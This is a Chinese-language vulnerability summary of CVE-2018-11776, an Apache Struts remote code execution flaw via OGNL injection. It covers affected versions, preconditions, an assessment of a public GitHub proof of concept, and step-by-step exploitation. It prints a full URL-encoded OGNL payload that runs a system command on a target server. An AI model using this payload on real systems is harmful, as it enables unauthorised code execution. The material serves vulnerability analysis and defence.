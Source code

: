 ## CVE-2018-11776-Apache Struts远程代码执行

**漏洞编号:** CVE-2018-11776

**漏洞类型:** 远程代码执行

**影响应用:** Apache Struts

**危害等级:** 高危，允许攻击者在服务器上执行任意命令。

**影响版本:** 2.3.x (2.3 to 2.3.34) 和 2.5.x (2.5 to 2.5.16)

**利用条件:** alwaysSelectFullNamespace 必须为 true，并且存在特定的命名空间配置漏洞。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2018-11776 是一个存在于 Apache Struts 框架中的远程代码执行漏洞。当 `alwaysSelectFullNamespace` 设置为 true，并且使用了没有命名空间的结果时，或者使用了缺少 value 和 action 属性的 url 标签，攻击者可以通过构造恶意的 URL，利用 OGNL 表达式注入执行任意代码。提供的 POC 代码通过在 URL 中嵌入 OGNL 表达式来触发漏洞。例如，第二个 POC 会在目标系统的 `/tmp` 目录下创建一个名为 `vulnerable` 的文件。该漏洞利用过程主要依赖于Struts2的OGNL表达式引擎，通过构造恶意的表达式来执行系统命令。

**有效性：**
从漏洞描述和提供的POC来看，该漏洞的利用应该是有效的，前提是目标系统满足 `alwaysSelectFullNamespace` 为 true 等前提条件。

**投毒风险：**
分析提供的 Dockerfile 和相关脚本，虽然存在构建脆弱 Struts 环境的步骤，但是总体上没有明显的恶意代码。构建过程比较繁琐，容易出错，可能存在代码执行路径未覆盖的情况。`test-cve-2018-11776`密码可能有其他用途，以及创建脆弱环境本身也是一种隐藏的风险。因此存在一定的投毒风险，但是可能性较低，约为 5%。 风险主要来自环境部署的复杂性，而不是明显的后门。

**利用方式：**
1.  **确认目标环境：** 确认目标 Apache Struts 版本在受影响范围内 (2.3 to 2.3.34 和 2.5 to 2.5.16)。
2.  **检查配置：** 检查 `alwaysSelectFullNamespace` 是否设置为 true。 这可以通过查看 Struts 的配置文件（如 `struts.xml`）来确定。
3.  **构造恶意 URL：** 构造包含 OGNL 表达式的 URL。例如，可以使用类似以下形式的 payload：
    ```
    http://<IP ADDRESS>:8080/struts2-showcase-2.3.14/%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27touch /tmp/vulnerable%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/help.action
    ```
4.  **发送请求：** 将构造的 URL 发送到目标服务器。
5.  **验证结果：** 验证命令是否成功执行。 例如，在上述 POC 中，可以检查目标服务器上是否存在 `/tmp/vulnerable` 文件。

**项目地址:** [bhdresh/CVE-2018-11776](https://github.com/bhdresh/CVE-2018-11776)

**漏洞详情:** [CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776)